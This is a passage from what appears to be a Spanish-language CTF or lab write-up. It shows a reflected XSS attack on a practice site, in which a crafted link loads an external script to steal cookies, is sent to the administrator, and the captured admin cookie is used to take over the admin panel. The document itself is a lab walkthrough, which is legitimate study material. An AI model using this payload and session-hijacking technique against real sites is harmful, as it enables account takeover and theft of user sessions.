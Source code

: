 ![cookie2](./img/cookie2.png)

Como vemos, el robo de cookies es correcto, por lo que ahora simplemente le enviamos este enlace al administrador:

```css
https://guitjapeo.thl/?text=<script src="https://cdn.jsdelivr.net/gh/Maciferna/Temporal@main/cookies.js"></script>
```

Ahora conseguimos la cookie del administrador:

![cookie3](./img/cookie3.png)

Ahora solo vamos al panel e iniciamos sesion, luego cambiamos nuestra cookie por la del administrador.

![Administrador](./img/administrador.png)
